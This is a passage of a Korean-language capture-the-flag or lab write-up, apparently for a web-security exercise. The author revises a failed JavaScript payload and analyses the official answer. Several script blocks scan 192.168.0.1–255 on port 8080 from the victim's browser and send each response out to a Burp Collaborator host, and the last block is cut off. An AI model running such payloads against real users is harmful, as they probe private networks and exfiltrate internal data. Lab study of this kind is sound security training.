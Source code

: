 아... 그런데 생각해보니 위의 코드는 제대로 동작하지 않는다. for 문안에 location을 변경하는 부분이 있어서 처음 한번만 실행되면 페이지가 바뀌므로 실행이 끝나버린다. 내부 네트워크로 부터 응답이 있는 서버가 있는지를 확인하기 위해서 Burp Collaborator를 써야할 것 같다. 다음과 같이 바꾼다. 

```js
<script>
for (let i=1; i < 256; i++){
   var req = new XMLHttpRequest();
   req.onload = reqListener;
   req.open('get',`http://192.168.0.${i}:8080`); 
   req.send();

   function reqListener() {
      var req2 = new XMLHttpRequest();
       req2.open('get',`http://i8rld23fgct95mc4tlfm8rqvfmld9axz.oastify.com/${i}?key=`+this.responseText); 
       req2.send();
   };
}
</script>

```


```js
<html>
<script>
for (let i=1; i < 256; i++){
   var req = new XMLHttpRequest();
   req.onload = reqListener;
   req.open('get','http://192.168.0.'+ i + ':8080'); 
   req.send();

   function reqListener() {
      var req2 = new XMLHttpRequest();
       req2.open('get','http://i8rld23fgct95mc4tlfm8rqvfmld9axz.oastify.com/' + i + '?key='+this.responseText); 
       req2.send();
   };
}
</script>
</html>
```

음.. 제대로 동작하지 않는다. 뭐가 문젤까? 답을 보고 분석해보자. 

# 답을 보고 분석

## STEP 1. 내부 네트워크 서버의 IP알아내기 
정답 동영상의 코드는 다음과 같다.위에서 짠 코드와 비슷한 부분도 있다. XMLHttpRequest 대신에 fetch 를 사용하였다. 내 코드가 동작하지 않았던 원인은 뭘까? 

```js
<html>
    <script>
        collaboratorURL = "https://jczuv0mhp9to3cgtcd767eb9208rwlka.oastify.com"

        for (let i=0; i < 256; i++){
            fetch('http://192.168.0.' + i + ':8080')
            .then(response => response.text())
            .then( text => {
                try{
                    fetch(collaboratorURL + '?ip=' + 'http://192.168.0.' + i + "&code=" + encodeURIComponent(text))
                } catch (err){
                    
                }
```